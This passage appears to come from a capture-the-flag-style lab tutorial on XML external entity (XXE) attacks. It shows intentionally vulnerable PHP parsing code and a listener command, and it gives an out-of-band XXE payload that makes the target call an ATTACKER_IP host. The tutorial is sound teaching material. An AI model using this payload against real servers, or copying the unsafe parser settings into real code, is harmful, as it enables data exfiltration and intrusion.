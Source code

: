 In the payload above, `&xxe;` is expanded wherever it appears. Attackers can use entity expansion to perform a Billion Laughs attack, where a small XML document recursively expands to consume server resources, leading to a denial of service.

### Out-of-band

Out-Of-Band XXE

On the other hand, to demonstrate this vulnerability, go to http://10.10.247.241/index.php. The application uses the below code when a user uploads a file:

libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}

The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server.

For this attack, we will need a server that will receive data from other servers. You can use Python's http.server module, although there are options out there, like Apache or Nginx. Using AttackBox or your own machine, start a Python web server by using the command:
Starting a Python Webserver

           
user@tryhack $ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

        

Upload a file in the application and monitor the request that is sent to submit.php using your Burp. Forward the request below to Burp Repeater.

Forward the request to repeater

Using the payload below, replace the value of the XML file in the request and resend it. Note that you have to replace the ATTACKER_IP variable with your own IP.

<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
